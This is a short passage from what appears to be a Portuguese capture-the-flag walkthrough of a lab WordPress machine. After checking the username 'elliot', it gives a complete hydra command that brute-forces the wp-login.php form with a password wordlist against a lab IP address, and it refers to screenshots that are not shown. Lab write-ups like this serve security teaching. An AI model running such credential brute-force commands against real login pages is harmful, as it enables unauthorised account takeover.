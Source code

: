 
- Agora com o usuario vamos testar

![Untitled](Untitled%2013.png)

- Entao vamos fazer o mesmo so que com a senha

```bash
hydra -l elliot -P clear.txt 10.10.156.254 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.156.254%2Fwp-admin%2F&testcookie=1:incorrect" -V -F
```

![Untitled](Untitled%2014.png)
